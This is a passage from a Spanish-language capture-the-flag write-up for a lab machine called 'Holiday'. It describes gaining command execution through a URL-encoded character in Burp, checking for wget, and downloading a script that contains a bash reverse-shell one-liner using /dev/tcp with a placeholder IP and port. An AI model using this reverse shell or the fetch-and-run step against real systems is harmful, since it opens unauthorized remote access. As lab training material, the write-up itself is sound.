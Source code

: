 No parece funcionar, así que lo transformamos en formato URL el cual corresponde a %26:       
![urlid](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/d375c446f1ef912200523516bcaafd17c9290323/_includes/CTFIMG/Holiday/burp-hexid.png)

Y como se aprecia tenemos ejecución de comandos. Nos aprovecharemos de esto para ejecutar una reverse shell.

### Shell as algernon
Ya que tenemos una forma de ejecutar código intentaremos depositar un script en bash para realizar el proceso de reverse shell. Primero veremos si contamos con wget para descargar ficheros:     
![wget?](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/d375c446f1ef912200523516bcaafd17c9290323/_includes/CTFIMG/Holiday/burpwget.png)

Y contamos con wget para descargar ficheros, tomemos en cuenta que se agrego **`%20`** lo que representa un espacio. Depositaremos el siguiente script y lo compartiremos con un servidor simple de python para descargarlo utilizando wget:  
```bash
#!/bin/bash

bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"
```
![bashrev](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/d375c446f1ef912200523516bcaafd17c9290323/_includes/CTFIMG/Holiday/rev.png)
